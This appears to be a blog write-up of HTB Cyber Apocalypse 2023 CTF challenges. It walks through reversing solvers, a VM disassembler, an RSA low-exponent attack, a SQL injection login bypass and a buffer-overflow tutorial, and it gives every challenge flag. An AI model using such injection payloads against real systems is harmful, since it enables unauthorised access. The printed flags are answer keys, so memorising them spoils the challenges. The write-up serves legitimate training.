

For other challenges/categories, check out my other blogs and our team's blogs on [BKISC Blog](https://blog.bkisc.com/blog/).

## Author notes

Our team, [BKISC](https://bkisc.com/) finished at top **29** of this year **Cyber Apocalypse 2023 - The Cursed Mission**, solved **60/74** challenges, got **18175** points in total. Personally, I really enjoy playing in the competition, and I'm looking forward to other **HTB CTFs** in the future.



For some challenges like **Somewhat Linear** or **Analogue Signal Processing**, since I collaborated with some other players from my team, the write-ups will be on our team's blog, [BKISC Blog](https://blog.bkisc.com/blog/).

## Shattered Tablet

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1KbW9wdpO7sfwq1nUaqMTmmriVMkXzpdq/view?usp=sharing)

Reverse Engineering category greets us with a binary. I used [IDA Pro](https://hex-rays.com/ida-pro/) to decompile the binary.

In the main function, the input is being checked through an if clause.

I used [angr](https://angr.io/) to get the input (you can refer to [this](https://docs.angr.io/examples) and [this, too](https://s0uthwood.github.io/post/angr-ctf-writeup/) to get the hang of angr).

Here is the Python script.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    import angr

    p = angr.Project('E:/Downloads/tablet')
    simgr = p.factory.simulation_manager(p.factory.entry_state())

    simgr.explore(find=0x401359, avoid=0x401367)
    for i in range(3):
        print(simgr.found[0].posix.dumps(i))
```

We have to find the address of `puts("Yes! That's right!");` and avoid the address of `puts("No... not that");`. Also, we have to increase each of the address by `0x400000` due to the fact that this binary is [PIE-enabled](https://ir0nstone.gitbook.io/notes/types/stack/pie).

Flag is: `HTB{br0k3n_4p4rt,n3ver_t0_b3_r3p41r3d}`

## Needle in a Haystack

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1f9daRLUAowb2GXMbgTaZWzu8v7aEqkWz/view?usp=sharing)

We are given an another binary. Again, load the binary using [IDA Pro](https://hex-rays.com/ida-pro/).

This time, the main algorithm of the binary is to print out a random element from the given list, and guess what, the flag is also there!


Flag is: `HTB{d1v1ng_1nt0_th3_d4tab4nk5}`

## She Shells C Shells

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1oYAAIEwVZ2zmv7vTyZVhfCMPLxoinSKK/view?usp=sharing)

We get another binary, and it's time to use [IDA Pro](https://hex-rays.com/ida-pro/) to decompile it.

Load the binary, we notice the function `func_flag`. Let's check that out!

```c showLineNumbers{1} /apply/ /components/
    fgets(s, 256, stdin);
    for ( i = 0; i <= 0x4C; ++i )
    s[i] ^= m1[i];
    if ( memcmp(s, &t, 0x4DuLL) )
    return 0xFFFFFFFFLL;
    for ( j = 0; j <= 0x4C; ++j )
    s[j] ^= m2[j];
    printf("Flag: %s\n", s);
    return 0LL;
```

This is the main part of the function. Our input string s will be used to `XOR` with two lists, `m1` and `m2`. We can use `export data` in IDA to dump out the contents of `m1` and `m2`, as shown below (do the same for `m2`).


We also know that after the first `XOR`, `s` needs to be equal to `t` (which we can get from the memory, too). Then we can reverse `XOR` to find `s`, and the algorithm looks like this.

```py showLineNumbers{1} /apply/ /components/
    t[i] ^ m1[i] = s[i % 8]
```

Since after the check, we continue to `XOR m2` with the modified `s` (which should be equal to `t` after the memcmp), we get the algorithm to print out our flag.

```py showLineNumbers{1} /apply/ /components/
    t[i] ^ m2[i] = flag[i]
```

We can use this Python script to get the flag.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    m2 = [ 0x64, 0x1E, 0xF5, 0xE2, 0xC0, 0x97, 0x44, 0x1B, 0xF8, 0x5F,
    0xF9, 0xBE, 0x18, 0x5D, 0x48, 0x8E, 0x91, 0xE4, 0xF6, 0xF1,
    0x5C, 0x8D, 0x26, 0x9E, 0x2B, 0xA1, 0x02, 0xF7, 0xC6, 0xF7,
    0xE4, 0xB3, 0x98, 0xFE, 0x57, 0xED, 0x4A, 0x4B, 0xD1, 0xF6,
    0xA1, 0xEB, 0x09, 0xC6, 0x99, 0xF2, 0x58, 0xFA, 0xCB, 0x6F,
    0x6F, 0x5E, 0x1F, 0xBE, 0x2B, 0x13, 0x8E, 0xA5, 0xA9, 0x99,
    0x93, 0xAB, 0x8F, 0x70, 0x1C, 0xC0, 0xC4, 0x3E, 0xA6, 0xFE,
    0x93, 0x35, 0x90, 0xC3, 0xC9, 0x10, 0xE9]

    t = [0x2C,0x4A,0x0B7,0x99,0x0A3,0x0E5,0x70,0x78,0x93,0x6E,0x97,0x0D9,0x47,0x6D,0x38,0x0BD,0x0FF,0x0BB,0x85,0x99,0x6F,0xE1,0x4A,0x0AB,0x74,0x0C3,0x7B,0x0A8,0x0B2,0x9F,0x0D7,0x0EC,0x0EB,0x0CD,0x63,0x0B2,0x39,0x23,0x0E1,0x84,0x92,0x96,0x09,0x0C6,0x99,0x0F2,0x58,0x0FA,0x0CB,0x6F,0x6F,0x5E,0x1F,0x0BE,0x2B,0x13,0x8E,0x0A5,0x0A9,0x99,0x93,0x0AB,0x8F,0x70,0x1C,0x0C0,0x0C4,0x3E,0x0A6,0x0FE,0x93,0x35,0x90,0x0C3,0x0C9,0x10,0x0E9]

    for i in range(len(t)):
        print(end=chr(t[i] ^ m2[i]))
```

Flag is: `HTB{cr4ck1ng_0p3n_sh3ll5_by_th3_s34_sh0r3}`

## Hunting License

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1xResSHQcRL1wdSw3t3u-TuzGj839Gh0m/view?usp=sharing)

We are given a binary file, together with a netcat server.

By analyzing the binary file using [file](https://www.geeksforgeeks.org/file-command-in-linux-with-examples/), we can answer some first questions.


For the next question, we can use `ldd license` command to get some infos about libraries of the binary.


For the upcoming question, I used [gdb](https://manpages.ubuntu.com/manpages/trusty/man1/gdb.1.html) together with its `info function` command to get the address of the `main` function.


Using [IDA Pro](https://hex-rays.com/ida-pro/), we can answer some more questions correctly.

There will be 3 passwords for us to find, the first one is too obvious, the second one is reversed, and the last one is generated using `XOR` with the key `19`.

Here is the script for the last password.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    data = [0x47,0x7B,0x7A,0x61,0x77,0x52,0x7D,0x77,0x55,0x7A,0x7D,0x72,0x7F,0x32,0x32,0x32]
    key = 19

    print("".join(chr(i ^ key) for i in data))
```


Flag is: `HTB{l1c3ns3_4cquir3d-hunt1ng_t1m3!}`

## Cave System

> * **Given files:** [Get it here!](https://drive.google.com/file/d/10IGptbNTTSxzx-Mv0Elgt2Vx4bVKjHCZ/view?usp=sharing)

We are given a binary once again. Using [IDA Pro](https://hex-rays.com/ida-pro/), for this type of challenge, we should consider using [angr](https://angr.io/) or [z3 solver](https://pypi.org/project/z3-solver/). Here I choose to use [angr](https://angr.io/).

Here is the Python script.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    import angr

    p = angr.Project('E:/Downloads/cave')
    simgr = p.factory.simulation_manager(p.factory.entry_state())

    simgr.explore(find=0x401ABA, avoid=0x401AC8)
    for i in range(3):
        print(simgr.found[0].posix.dumps(i))
```

We have to find the address of `puts("Freedom at last!");` and avoid the address of `puts("Lost in the darkness, you'll wander for eternity...");`. Also, we have to increase each of the address by `0x400000` due to the fact that this binary is [PIE-enabled](https://ir0nstone.gitbook.io/notes/types/stack/pie).

Flag is: `HTB{H0p3_u_d1dn't_g3t_th15_by_h4nd,1t5_4_pr3tty_l0ng_fl4g!!!}`

## Alien Saboteur

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1LFinP3KsutSSt46WExL_TekEBFv_GOmR/view?usp=sharing)

We get a binary with a text file with no format. Analyze the binary using [IDA Pro](https://hex-rays.com/ida-pro/), from the function `vm_create`, the text file is contained in `*(v3 + 18)` and being executed like a normal binary. 


Each instructions appear to be at every 6<sup>th</sup> index from 0. From that, I wrote an interpreter for the text file (that runs through the binary).

```py title="solve/vm.py" showLineNumbers{1} /apply/ /components/
    from malduck import xor

    ls = ['vm_add', 'vm_addi','vm_sub','vm_subi','vm_mul','vm_muli', 'vm_div', 'vm_cmp','vm_jmp','vm_inv', 'vm_push', 'vm_pop','vm_mov','vm_nop','vm_exit', 'vm_print', 'vm_putc','vm_je','vm_jne','vm_jle', 'vm_jge', 'vm_xor','vm_store', 'vm_load','vm_input']

    def disass(code):
        i = 0
        while i < len(code):
            try:
                op = code[i]
                opr = ls[op]

                if opr == 'vm_add':
                    print("{:03d}: ADD [{}] <- [{}] + [{}]".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_addi':
                    print("{:03d}: ADDI [{}] <- [{}] + {}".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_sub':
                    print("{:03d}: SUB [{}] <- [{}] - [{}]".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_subi':
                    print("{:03d}: SUBI [{}] <- [{}] - {}".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_mul':
                    print("{:03d}: MUL [{}] <- [{}] * [{}]".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_muli':
                    print("{:03d}: MULI [{}] <- [{}] * {}".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_div':
                    print("{:03d}: DIV [{}] <- [{}] / [{}]".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_cmp':
                    print("{:03d}: CMP flag <- [{}] == [{}]".format(i, ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_jmp':
                    print("{:03d}: JMP pc <- pc + [{}]".format(i, chr(ls1[i + 2])))
                    i += 6
                elif opr == 'vm_inv':
                    print("{:03d}: INV [31] <- syscall({}, {})".format(i, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_push':
                    print("{:03d}: PUSH [{}]".format(i, ls1[i + 1]))
                    i += 6
                elif opr == 'vm_pop':
                    print("{:03d}: POP [{}]".format(i, ls1[i + 1]))
                    i += 6
                elif opr == 'vm_mov':
                    print("{:03d}: MOV [{}] <- {}".format(i, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_nop':
                    print("{:03d}: NOP".format(i))
                    i += 6
                elif opr == 'vm_exit':
                    print("{:03d}: EXIT".format(i))
                    i += 6
                elif opr == 'vm_print':
                    print("{:03d}: PRINT [{}]".format(i, ls1[i + 1]))
                    i += 6
                elif opr == 'vm_putc':
                    print("{:03d}: PUTC {}".format(i, ascii(chr(ls1[i + 1]))))
                    i += 6
                elif opr == 'vm_je':
                    print("{:03d}: JE pc <- {} if [{}] == [{}]".format(i, ls1[i + 3]*6, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_jne':
                    print("{:03d}: JNE pc <- {} if [{}] != [{}]".format(i, ls1[i + 3]*6, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_jle':
                    print("{:03d}: JLE pc <- {} if [{}] <= [{}]".format(i, ls1[i + 3]*6, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_jge':
                    print("{:03d}: JGE pc <- {} if [{}] >= [{}]".format(i, ls1[i + 3]*6, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_xor':
                    print("{:03d}: XOR [{}] <- [{}] ^ [{}]".format(i, ls1[i + 1], ls1[i + 2], ls1[i + 3]))
                    i += 6
                elif opr == 'vm_store':
                    print("{:03d}: STORE MEM[[{}]] <- [{}]".format(i, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_load':
                    print("{:03d}: LOAD [{}] <- MEM[[{}]]".format(i, ls1[i + 1], ls1[i + 2]))
                    i += 6
                elif opr == 'vm_input':
                    print("{:03d}: INPUT [{}]".format(i, ls1[i + 1]))
                    i += 6
                else:
                    print("{:03d}: UNKNOWN".format(i))

            except:
                print("{:03d}: UNKNOWN {}".format(i, op))
                break

    with open('./bin','rb') as f:
        f = f.read()
        ls1 = []
        ls2 = []
        for i in f[3:]:
            ls1.append(i)

        for i in range(714, 714 + 220*6):
            ls1[i] = ls1[i] ^ 69
        
        disass(ls1)
```

Which gives the below output.

```Output
    000: PUTC '['
    006: PUTC 'M'
    012: PUTC 'a'
    018: PUTC 'i'
    024: PUTC 'n'
    030: PUTC ' '
    036: PUTC 'V'
    042: PUTC 'e'
    048: PUTC 's'
    054: PUTC 's'
    060: PUTC 'e'
    066: PUTC 'l'
    072: PUTC ' '
    078: PUTC 'T'
    084: PUTC 'e'
    090: PUTC 'r'
    096: PUTC 'm'
    102: PUTC 'i'
    108: PUTC 'n'
    114: PUTC 'a'
    120: PUTC 'l'
    126: PUTC ']'
    132: PUTC '\n'
    138: PUTC '<'
    144: PUTC ' '
    150: PUTC 'E'
    156: PUTC 'n'
    162: PUTC 't'
    168: PUTC 'e'
    174: PUTC 'r'
    180: PUTC ' '
    186: PUTC 'k'
    192: PUTC 'e'
    198: PUTC 'y'
    204: PUTC 'c'
    210: PUTC 'o'
    216: PUTC 'd'
    222: PUTC 'e'
    228: PUTC ' '
    234: PUTC '\n'
    240: PUTC '>'
    246: PUTC ' '
    252: MOV [30] <- 160
    258: MOV [28] <- 0
    264: MOV [29] <- 17
    270: INPUT [25]
    276: STORE MEM[[30]] <- [25]
    282: ADDI [30] <- [30] + 1
    288: ADDI [28] <- [28] + 1
    294: JLE pc <- 270 if [28] <= [29]
    300: MOV [30] <- 4
    306: MOV [31] <- 160
    312: MOV [28] <- 0
    318: MOV [29] <- 10
    324: MOV [27] <- 169
    330: MOV [23] <- 0
    336: LOAD [25] <- MEM[[30]]
    342: LOAD [24] <- MEM[[31]]
    348: XOR [25] <- [25] ^ [27]
    354: JE pc <- 468 if [25] == [24]
    360: PUTC 'U'
    366: PUTC 'n'
    372: PUTC 'k'
    378: PUTC 'n'
    384: PUTC 'o'
    390: PUTC 'w'
    396: PUTC 'n'
    402: PUTC ' '
    408: PUTC 'k'
    414: PUTC 'e'
    420: PUTC 'y'
    426: PUTC 'c'
    432: PUTC 'o'
    438: PUTC 'd'
    444: PUTC 'e'
    450: PUTC '!'
    456: PUTC '\n'
    462: EXIT
    468: ADDI [30] <- [30] + 1
    474: ADDI [31] <- [31] + 1
    480: ADDI [28] <- [28] + 1
    486: JLE pc <- 336 if [28] <= [29]
    492: MOV [15] <- 0
    498: PUSH [15]
    504: PUSH [15]
    510: PUSH [15]
    516: INV [31] <- syscall(101, 3)
    522: MOV [16] <- 0
    528: JE pc <- 648 if [31] == [16]
    534: PUTC 'T'
    540: PUTC 'e'
    546: PUTC 'r'
    552: PUTC 'm'
    558: PUTC 'i'
    564: PUTC 'n'
    570: PUTC 'a'
    576: PUTC 'l'
    582: PUTC ' '
    588: PUTC 'b'
    594: PUTC 'l'
    600: PUTC 'o'
    606: PUTC 'c'
    612: PUTC 'k'
    618: PUTC 'e'
    624: PUTC 'd'
    630: PUTC '!'
    636: PUTC '\n'
    642: EXIT
    648: MOV [30] <- 119
    654: MULI [30] <- [30] * 6
    660: MOV [28] <- 0
    666: MOV [29] <- 220
    672: MOV [27] <- 69
    678: LOAD [25] <- MEM[[30]]
    684: XOR [25] <- [25] ^ [27]
    690: STORE MEM[[30]] <- [25]
    696: ADDI [30] <- [30] + 1
    702: ADDI [28] <- [28] + 1
    708: JLE pc <- 678 if [28] <= [29]
    714: PUTC '<'
    720: PUTC ' '
    726: PUTC 'E'
    732: PUTC 'n'
    738: PUTC 't'
    744: PUTC 'e'
    750: PUTC 'r'
    756: PUTC ' '
    762: PUTC 's'
    768: PUTC 'e'
    774: PUTC 'c'
    780: PUTC 'r'
    786: PUTC 'e'
    792: PUTC 't'
    798: PUTC ' '
    804: PUTC 'p'
    810: PUTC 'h'
    816: PUTC 'r'
    822: PUTC 'a'
    828: PUTC 's'
    834: PUTC 'e'
    840: PUTC '\n'
    846: PUTC '>'
    852: PUTC ' '
    858: MOV [30] <- 48
    864: MOV [28] <- 0
    870: MOV [29] <- 36
    876: INPUT [25]
    882: STORE MEM[[30]] <- [25]
    888: ADDI [30] <- [30] + 1
    894: ADDI [28] <- [28] + 1
    900: JLE pc <- 876 if [28] <= [29]
    906: MOV [28] <- 0
    912: MOV [29] <- 35
    918: MOV [30] <- 48
    924: MOV [31] <- 148
    930: MOV [26] <- 0
    936: MOV [27] <- 35
    942: LOAD [20] <- MEM[[30]]
    948: LOAD [21] <- MEM[[31]]
    954: PUSH [20]
    960: POP [19]
    966: MOV [18] <- 48
    972: ADD [18] <- [18] + [21]
    978: LOAD [17] <- MEM[[18]]
    984: STORE MEM[[30]] <- [17]
    990: STORE MEM[[18]] <- [19]
    996: ADDI [26] <- [26] + 1
    1002: ADDI [30] <- [30] + 1
    1008: ADDI [31] <- [31] + 1
    1014: JLE pc <- 942 if [26] <= [27]
    1020: MOV [30] <- 48
    1026: MOV [31] <- 248
    1032: MOV [26] <- 0
    1038: MOV [27] <- 35
    1044: LOAD [20] <- MEM[[30]]
    1050: PUSH [31]
    1056: POP [15]
    1062: ADD [15] <- [15] + [28]
    1068: LOAD [16] <- MEM[[15]]
    1074: XOR [20] <- [20] ^ [16]
    1080: STORE MEM[[30]] <- [20]
    1086: ADDI [26] <- [26] + 1
    1092: ADDI [30] <- [30] + 1
    1098: JLE pc <- 1044 if [26] <= [27]
    1104: ADDI [28] <- [28] + 1
    1110: JLE pc <- 918 if [28] <= [29]
    1116: MOV [30] <- 48
    1122: MOV [31] <- 92
    1128: MOV [26] <- 0
    1134: MOV [27] <- 35
    1140: LOAD [15] <- MEM[[30]]
    1146: LOAD [16] <- MEM[[31]]
    1152: JE pc <- 1206 if [15] == [16]
    1158: PUTC 'W'
    1164: PUTC 'r'
    1170: PUTC 'o'
    1176: PUTC 'n'
    1182: PUTC 'g'
    1188: PUTC '!'
    1194: PUTC '\n'
    1200: EXIT
    1206: ADDI [26] <- [26] + 1
    1212: ADDI [30] <- [30] + 1
    1218: ADDI [31] <- [31] + 1
    1224: JLE pc <- 1140 if [26] <= [27]
    1230: PUTC 'A'
    1236: PUTC 'c'
    1242: PUTC 'c'
    1248: PUTC 'e'
    1254: PUTC 's'
    1260: PUTC 's'
    1266: PUTC ' '
    1272: PUTC 'g'
    1278: PUTC 'r'
    1284: PUTC 'a'
    1290: PUTC 'n'
    1296: PUTC 't'
    1302: PUTC 'e'
    1308: PUTC 'd'
    1314: PUTC ','
    1320: PUTC ' '
    1326: PUTC 's'
    1332: PUTC 'h'
    1338: PUTC 'u'
    1344: PUTC 't'
    1350: PUTC 't'
    1356: PUTC 'i'
    1362: PUTC 'n'
    1368: PUTC 'g'
    1374: PUTC ' '
    1380: PUTC 'd'
    1386: PUTC 'o'
    1392: PUTC 'w'
    1398: PUTC 'n'
    1404: PUTC '!'
    1410: PUTC '\n'
    1416: EXIT
    1422: UNKNOWN 69
```

For the part from `714` onwards, the text is being `XOR-ed` with key `0x69`.

Use debuggers to read the memory at `[30]` then `XOR` with key `169`, we get the first input, which is `c0d3_r3d_5hutd0wn`.


Then we reach the part that it prints out `Enter secret phrase`. For this part, the algorithm is `shuffle and XOR`, which can be solved by using debuggers to read the memory at `[92]`, `[148]` and `[248]`, then by the Python script below, we get the flag.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    from malduck import unhex

    key1 = unhex(b"13190F0A07001D0E16100C010B1F181408091C1A21042212051B1120060215170D1E2303")  #[148]
    key2 = unhex(b"16B047B201FBDEEB825D5B5D107C6E215FE7452A3623D4D726D5A311EDE75ECBDB9FDDE2")  #[248]
    flag = list(unhex(b"655D774A3340566C75375D356E6E66366C367065776A31795D31707F6C6E33323636315D"))  #[92]

    for i in range(36):
        for k in range(35, -1, -1):
            flag[k] = flag[k] ^ key2[i]
        for k in range(35, -1, -1):
            tmp = flag[k]
            flag[k] = flag[key1[k]]
            flag[key1[k]] = tmp

    print(''.join([chr(i) for i in flag]))
```

Flag is: `HTB{5w1rl_4r0und_7h3_4l13n_l4ngu4g3}`

## Ancient Encodings

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1eDi7M0cVA9-y2EPYMWehni7YQpq-3QN4/view?usp=sharing)

We are given a Python script and a text file. Analyze the script, we get to know how the string is being encoded, which is `Base 64 encode > Conversion to long from bytes > Hex`.

To get the original string, we simply reverse the process, using [CyberChef](https://gchq.github.io/CyberChef) with the hex given in the text file.


Flag is: `HTB{1n_y0ur_j0urn3y_y0u_wi1l_se3_th15_enc0d1ngs_ev3rywher3}`

## Small StEps

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1UWVtdIr8GX9C6to-uuyEJe0v3Zg_baDf/view?usp=sharing)

We are given two Python script. The server.py is to setup a server for `RSA encryption`. It will output `n, e, ct` upon connecting to the netcat server/run the Python script locally.


Since `e` is always `3`, we can use [Low public exponent RSA attack](https://crypto.stackexchange.com/questions/6713/low-public-exponent-attack-for-rsa) to recover the initial message. In general, we only have to calculate `cube root` of ciphertext to get the plaintext. 

Below is the implementation of the attack in Python.

```py title="solve/solver.py" showLineNumbers{1} /apply/ /components/
    from Crypto.Util.number import long_to_bytes
    import gmpy2

    n = 884883504927573976507811885368533220992278181011115684591381528075201937106582650631361008463165895850991665645858432026935373136174833729634068491453157
    e = 3
    ct = 70407336670535933819674104208890254240063781538460394662998902860952366439176467447947737680952277637330523818962104685553250402512989897886053

    pt = gmpy2.iroot(ct, 3)[0]  # Get cube root of ct
    print(long_to_bytes(pt))
```
Flag is: `HTB{5ma1l_E-xp0n3nt}`

## Trapped Source


We are given a website that looks like it requires us to input the right password on a locker to process. 

View page source to see if anything is given, and we can see the correct pin is `8291`.


Input the correct pin and we get the flag for the challenge.


Flag is: `HTB{V13w_50urc3_c4n_b3_u53ful!!!}`

## Drobots

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1NIgOlQWRawCdP_pQeTk0q2rQxFywnYI_/view?usp=sharing)

We are given a website and a zip file containing the website's source.


After a quick analyze on the source, I get to understand that either we have to use [SQL Injection](https://portswigger.net/web-security/sql-injection#:~:text=SQL%20injection%20(SQLi)%20is%20a,not%20normally%20able%20to%20retrieve.) or use a specific parameter to get to the next page.

Input `admin` for the username and `" OR 1 = 1 -- -` for the password, or add `/home` to the URL will grant you access to the next page, which turns out to also contains the flag.


Flag is: `HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`

## Initialise Connection

Just a sanity check challenge, do the same thing that is being stated in the description will grant you the flag.


Flag is: `HTB{g3t_r34dy_f0r_s0m3_pwn}`

## Questionnaire

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1m_j9ApZJusGOgEvGl-32JRbFyk2fpPkH/view?usp=sharing)

We are given a binary, a C file and a netcat server to answer some questions.

From the netcat, we are given some informations about the binary that we will going to work with.

``` showLineNumbers{1} /apply/ /components/                                                                                              
    When compiling C/C++ source code in Linux, an ELF (Executable and Linkable Format) file is created.  
    The flags added when compiling can affect the binary in various ways, like the protections.          
    Another thing affected can be the architecture and the way it's linked.                              
                                                                                                        
    If the system in which the challenge is compiled is x86_64 and no flag is specified,                 
    the ELF would be x86-64 / 64-bit. If it's compiled with a flag to indicate the system,               
    it can be x86 / 32-bit binary.                                                                       
                                                                                                        
    To reduce its size and make debugging more difficult, the binary can be stripped or not stripped.    
                                                                                                        
    Dynamic linking:                                                                                     
                                                                                                        
    A pointer to the linked file is included in the executable, and the file contents are not included   
    at link time. These files are used when the program is run.                                          
                                                                                                        
    Static linking:                                                                                      
                                                                                                        
    The code for all the routines called by your program becomes part of the executable file.            
                                                                                                        
    Stripped:                                                                                            
                                                                                                        
    The binary does not contain debugging information.                                                   
                                                                                                        
    Not Stripped:                                                                                        
                                                                                                        
    The binary contains debugging information.                                                           
                                                                                                        
    The most common protections in a binary are:                                                         
                                                                                                        
    Canary: A random value that is generated, put on the stack, and checked before that function is      
    left again. If the canary value is not correct-has been changed or overwritten, the application will 
    immediately stop.                                                                                    
                                                                                                        
    NX: Stands for non-executable segments, meaning we cannot write and execute code on the stack.       
                                                                                                        
    PIE: Stands for Position Independent Executable, which randomizes the base address of the binary     
    as it tells the loader which virtual address it should use.                                          
                                                                                                        
    RelRO: Stands for Relocation Read-Only. The headers of the binary are marked as read-only.           
                                                                                                        
    Run the 'file' command in the terminal and 'checksec' inside the debugger.                           
                                                                                                        
    The output of 'file' command:                                                                        
                                                                                                        
    ✗ file test                                                                                          
    test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,                       
    interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5a83587fbda6ad7b1aeee2d59f027a882bf2a429,     
    for GNU/Linux 3.2.0, not stripped.                                                                   
                                                                                                        
    The output of 'checksec' command:                                                                    
                                                                                                        
    gef➤  checksec                                                                                       
    Canary                        : ✘                                                                    
    NX                            : ✓                                                                    
    PIE                           : ✘                                                                    
    Fortify                       : ✘                                                                    
    RelRO                         : Partial                                                              
```

We are able to answer some first questions using these informations.


After answering these questions correctly, we are provided with more informations about the binary.

``` showLineNumbers{1} /apply/ /components/
    Great job so far! Now it's time to see some C code and a binary file.                                
                                                                                                        
    In the pwn_questionnaire.zip there are two files:                                                    
                                                                                                        
    1. test.c                                                                                            
    2. test                                                                                              
                                                                                                        
    The 'test.c' is the source code and 'test' is the output binary.                                     
                                                                                                        
    Let's start by analyzing the code.                                                                   
    First of all, let's focus on the '#include <stdio.h>' line.                                          
    It includes the 'stdio.h' header file to use some of the standard functions like 'printf()'.         
    The same principle applies for the '#include <stdlib.h>' line, for other functions like 'system()'.  
                                                                                                        
    Now, let's take a closer look at:                                                                    
                                                                                                        
    void main(){                                                                                         
            vuln();                                                                                          
    }                                                                                                    
                                                                                                        
    By default, a binary file starts executing from the 'main()' function.                               
                                                                                                        
    In this case, 'main()' only calls another function, 'vuln()'.                                        
    The function 'vuln()' has 3 lines.                                                                   
                                                                                                        
    void vuln(){                                                                                         
        char buffer[0x20] = {0};                                                                         
        fprintf(stdout, "\nEnter payload here: ");                                                       
        fgets(buffer, 0x100, stdin);                                                                     
    }                                                                                                    
                                                                                                        
    The first line declares a 0x20-byte buffer of characters and fills it with zeros.                    
    The second line calls 'fprintf()' to print a message to stdout.                                      
    Finally, the third line calls 'fgets()' to read 0x100 bytes from stdin and store them to the         
    aformentioned buffer.                                                                                
                                                                                                        
    Then, there is a custom 'gg()' function which calls the standard 'system()' function to print the    
    flag. This function is never called by default.                                                      
                                                                                                        
    void gg(){                                                                                           
        system("cat flag.txt");                                                                          
    }                                                                                                    
                                                                                                        
    Run the 'man <function_name>' command to see the manual page of a standard function (e.g. man fgets).
```

We are also able to answer some next questions using these informations.


After answering these questions correctly, we are provided with MORE and MORE informations about the binary.

``` showLineNumbers{1} /apply/ /components/
    Excellent! Now it's time to talk about Buffer Overflows.                                             
                                                                                                        
    Buffer Overflow means there is a buffer of characters, integers or any other type of variables,      
    and someone inserts into this buffer more bytes than it can store.                                   
                                                                                                        
    If the user inserts more bytes than the buffer's size, they will be stored somewhere in the memory   
    after the address of the buffer, overwriting important addresses for the flow of the program.        
    This, in most cases, will make the program crash.                                                    
                                                                                                        
    When a function is called, the program knows where to return because of the 'return address'. If the 
    player overwrites this address, they can redirect the flow of the program wherever they want.        
    To print a function's address, run 'p <function_name>' inside 'gdb'. (e.g. p main)                   
                                                                                                        
    gef➤  p gg                                                                                           
    $1 = {<text variable, no debug info>} 0x401176 <gg>                                                  
                                                                                                        
    To perform a Buffer Overflow in the simplest way, we take these things into consideration.           
                                                                                                        
    1. Canary is disabled so it won't quit after the canary address is overwritten.                      
    2. PIE is disabled so the addresses of the binary functions are not randomized and the user knows    
    where to return after overwritting the return address.                                            
    3. There is a buffer with N size.                                                                    
    4. There is a function that reads to this buffer more than N bytes.                                  
                                                                                                        
    Run printf 'A%.0s' {1..30} | ./test to enter 30*"A" into the program.                                
                                                                                                        
    Run the program manually with "./test" and insert 30*A, then 39, then 40 and see what happens.       
```

We are able to answer some next questions using these informations.


For the above question, you can try out to see for yourself.


And there is our flag!


Flag is: `HTB{th30ry_bef0r3_4cti0n}`

## Getting Started

